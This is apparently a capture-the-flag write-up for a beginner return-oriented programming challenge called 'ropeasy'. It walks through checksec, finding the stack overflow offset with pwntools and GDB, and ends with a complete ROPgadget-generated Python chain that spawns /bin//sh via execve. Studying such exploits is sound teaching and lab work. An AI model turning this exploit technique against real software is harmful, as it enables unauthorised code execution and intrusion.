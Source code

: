 # Easy ROP challenge  

## Intro 
Some prerequisites:  
* Some understanding of reverse engineering
* Competent at using a debugger such as Radare2, GDB, Ghidra, etc
* Basic understanding of linux binaries

We'll be treating the ropeasy binary as an unknown binary, we have no context of what it does or how to exploit it. Like all things in hacking, we start with enumeration.  
Tools like [checksec](https://docs.pwntools.com/en/stable/commandline.html) can help us indenify potential attack vectors and understand where we might want to start:  

![checksecOutput](https://user-images.githubusercontent.com/65077960/127680041-8f0ecfcc-d9e4-47be-8673-6cc3966e39de.png)

We're currently itneresting in "No canary found". Typically a random value is generated at program initialization and inserted at the end of the high risk area where the stack overflows.
At the end of the function, it checks to see if the value has been modified. The binary is also statically linked, so we can assume the gadgets are available to us.  

## Using it as intended

Our first test is typically to run the binary and use it as intended. Look for inputs and outputs, understand how the binary might work:  
![image](https://user-images.githubusercontent.com/65077960/127681942-de961813-665b-4959-acd3-da4673c8c445.png)

![image](https://user-images.githubusercontent.com/65077960/127681981-32fa2a07-95b4-4181-bddb-7f23d13b564e.png)

If our input is too large, we get a segmentation fault:  
![image](https://user-images.githubusercontent.com/65077960/127682045-57738d79-a39a-4e9f-a7d0-f71b83a6d8de.png)

## Finding the offset
Pwn has a tool that we can u se to generate large strings and compare them to get the offset:  
```
! pwn cyclic 200
```
You'lkl be given output that looks like this:  
```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```
We run the program (just type run) and provide the string as the input and receive another SIGSEV. We calculate the offset with the value in the ESP register:
```
x/xw $esp
```
and pass it to pwn:  
```
! pwn cyclic -l <ESP Value>
```
exit out and use:
```
ROPgadget --ropchain --binary ropeasy_updated
```
We're given a python payload as output (in step 5):  
```py
#!/usr/bin/env python2
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = ''

p += pack('<I', 0x0806feaa) # pop edx ; ret
p += pack('<I', 0x080eb060) # @ .data
p += pack('<I', 0x080b94a6) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x080558ab) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806feaa) # pop edx ; ret
p += pack('<I', 0x080eb064) # @ .data + 4
p += pack('<I', 0x080b94a6) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x080558ab) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806feaa) # pop edx ; ret
p += pack('<I', 0x080eb068) # @ .data + 8
p += pack('<I', 0x08049583) # xor eax, eax ; ret
p += pack('<I', 0x080558ab) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481d1) # pop ebx ; ret
p += pack('<I', 0x080eb060) # @ .data
p += pack('<I', 0x0806fed1) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080eb068) # @ .data + 8
p += pack('<I', 0x080eb060) # padding without overwrite ebx
p += pack('<I', 0x0806feaa) # pop edx ; ret
p += pack('<I', 0x080eb068) # @ .data + 8
p += pack('<I', 0x08049583) # xor eax, eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0807b48f) # inc eax ; ret
p += pack('<I', 0x0806da85) # int 0x80

```
